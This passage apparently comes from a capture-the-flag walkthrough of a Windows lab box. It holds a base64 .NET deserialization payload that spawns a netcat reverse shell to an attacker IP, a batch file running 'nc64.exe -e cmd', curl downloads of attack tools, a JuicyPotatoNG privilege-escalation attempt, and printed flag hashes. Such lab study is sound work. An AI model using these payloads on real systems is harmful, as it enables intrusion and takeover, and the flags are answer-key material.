UPLOAD_ORDER;AAEAAAD/////AQAAAAAAAAAMAgAAAFdTeXN0ZW0uV2luZG93cy5Gb3JtcywgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODkFAQAAACFTeXN0ZW0uV2luZG93cy5Gb3Jtcy5BeEhvc3QrU3RhdGUBAAAAEVByb3BlcnR5QmFnQmluYXJ5BwICAAAACQMAAAAPAwAAAMADAAACAAEAAAD/////AQAAAAAAAAAMAgAAAF5NaWNyb3NvZnQuUG93ZXJTaGVsbC5FZGl0b3IsIFZlcnNpb249My4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1BQEAAABCTWljcm9zb2Z0LlZpc3VhbFN0dWRpby5UZXh0LkZvcm1hdHRpbmcuVGV4dEZvcm1hdHRpbmdSdW5Qcm9wZXJ0aWVzAQAAAA9Gb3JlZ3JvdW5kQnJ1c2gBAgAAAAYDAAAA4gU8P3htbCB2ZXJzaW9uPSIxLjAiIGVuY29kaW5nPSJ1dGYtMTYiPz4NCjxPYmplY3REYXRhUHJvdmlkZXIgTWV0aG9kTmFtZT0iU3RhcnQiIElzSW5pdGlhbExvYWRFbmFibGVkPSJGYWxzZSIgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiIgeG1sbnM6c2Q9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fzc2VtYmx5PVN5c3RlbSIgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiPg0KICA8T2JqZWN0RGF0YVByb3ZpZGVyLk9iamVjdEluc3RhbmNlPg0KICAgIDxzZDpQcm9jZXNzPg0KICAgICAgPHNkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgICAgICA8c2Q6UHJvY2Vzc1N0YXJ0SW5mbyBBcmd1bWVudHM9Ii9jIEM6XFxwcm9ncmFtZGF0YVxcbmM2NC5leGUgMTAuMTAuMTQuMiA0NDQgLWUgY21kLmV4ZSIgU3RhbmRhcmRFcnJvckVuY29kaW5nPSJ7eDpOdWxsfSIgU3RhbmRhcmRPdXRwdXRFbmNvZGluZz0ie3g6TnVsbH0iIFVzZXJOYW1lPSIiIFBhc3N3b3JkPSJ7eDpOdWxsfSIgRG9tYWluPSIiIExvYWRVc2VyUHJvZmlsZT0iRmFsc2UiIEZpbGVOYW1lPSJjbWQiIC8+DQogICAgICA8L3NkOlByb2Nlc3MuU3RhcnRJbmZvPg0KICAgIDwvc2Q6UHJvY2Vzcz4NCiAgPC9PYmplY3REYXRhUHJvdmlkZXIuT2JqZWN0SW5zdGFuY2U+DQo8L09iamVjdERhdGFQcm92aWRlcj4LCw==
ERROR_GENERAL;Error deserializing sales order: Unable to cast object of type 'State' to type 'ScrambleLib.SalesOrder'.
SESSION_TIMED_OUT;
```

```
# nc -lvnp 444
listening on [any] 444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.168] 53668
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Get your root flag.

### Unintended File Read via MSSQL

There's an alternate way to read the root flag file. Without even taking shell as `MiscSvc` user. You don't even need to get a `MiscSvc` Shell. I got both the flag in one shot.
```
SQL (SCRM\administrator  dbo@master)> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\miscsvc\desktop\user.txt', SINGLE_CLOB) MyFile
BulkColumn                                
---------------------------------------   
b'e98c2b12617eaec7d3db569c8eb14b40\r\n'   

SQL (SCRM\administrator  dbo@master)> SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile
BulkColumn                                
---------------------------------------   
b'4bb5245ab97725fb599b126174390fa1\r\n'   
```

## RougePotato using MSSQL - Potato Exploit

First let me show you the difference of privileges for the two users that we have access to. `sqlsvc` and `MiscSvc`.

`Allowed Privilege to sqlsvc`
```
SQL (SCRM\administrator  dbo@master)> xp_cmdshell whoami /priv
output                                                                             
--------------------------------------------------------------------------------   
PRIVILEGES INFORMATION                                                             
----------------------                                                             
Privilege Name                Description                               State      
============================= ========================================= ========   
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeMachineAccountPrivilege     Add workstations to domain                Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled   
```

`Allowed Privilege to MiscSvc`
```
PS C:\ProgramData> whoami
scrm\miscsvc
PS C:\ProgramData> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

okay so the Service user has more privileges allowed. Now We can certainly try to take advantage of the Potato Exploits. Let's try it out.

`Revershell.bat`
```
# more revshell.bat                                             
C:\\ProgramData\\nc64.exe -e cmd 10.10.14.2 5555
```

We got three things. 
- JuicyPotatoNG.exe
- nc64.exe
- Revershell.bat
Get all three things on the target using `sqlsvc` SQL Shell as follows.

```
PS C:\programdata> whoami
scrm\sqlsvc
PS C:\programdata> curl -o nc.exe http://10.10.14.2/nc64.exe
PS C:\programdata> curl -o JuicyPotatoNG.exe http://10.10.14.2/JuicyPotatoNG.exe
PS C:\programdata> curl -o revshell.bat http://10.10.14.2/revshell.bat
PS C:\programdata> dir

    Directory: C:\programdata

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d---s-       03/11/2021     16:50                Microsoft                                                             
d-----       01/06/2022     12:43                Package Cache                                                         
d-----       01/06/2022     14:38                regid.1991-06.com.microsoft                                           
d-----       15/09/2018     08:19                SoftwareDistribution                                                  
d-----       05/03/2020     23:43                ssh                                                                   
d-----       26/01/2020     17:32                USOPrivate                                                            
d-----       26/01/2020     17:32                USOShared                                                             
d-----       31/10/2021     20:41                VMware                                                                
-a----       07/09/2024     07:48         153600 JuicyPotatoNG.exe                                                     
-a----       07/09/2024     07:48          45272 nc.exe                                                                
-a----       07/09/2024     07:03          45272 nc64.exe                                                              
-a----       07/09/2024     07:49             49 revshell.bat                                                          
```

At this point I ran following command from `SQL Shell` and the Stable Shell for user `sqlsvc`.
```
SQL (SCRM\administrator  dbo@master)> xp_cmdshell C:\\programdata\\JuicyPotatoNG.exe -t * -p C:\\programdata\\revshell.bat
output                                                                             
--------------------------------------------------------------------------------   

         JuicyPotatoNG                                                                    

         by decoder_it & splinter_code                                                    

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247    

[-] The privileged process failed to communicate with our COM Server :( Try a different COM port in the -l flag.    
```
I did not get the reverse Shell. The Privileged Process Failed. I got the same results from Stable Shell
```
PS C:\programdata> .\JuicyPotatoNG.exe -t * -p C:\programdata\revshell.bat 


         JuicyPotatoNG
         by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247 
[-] The privileged process failed to communicate with our COM Server :( Try a different COM port in the -l flag. 
```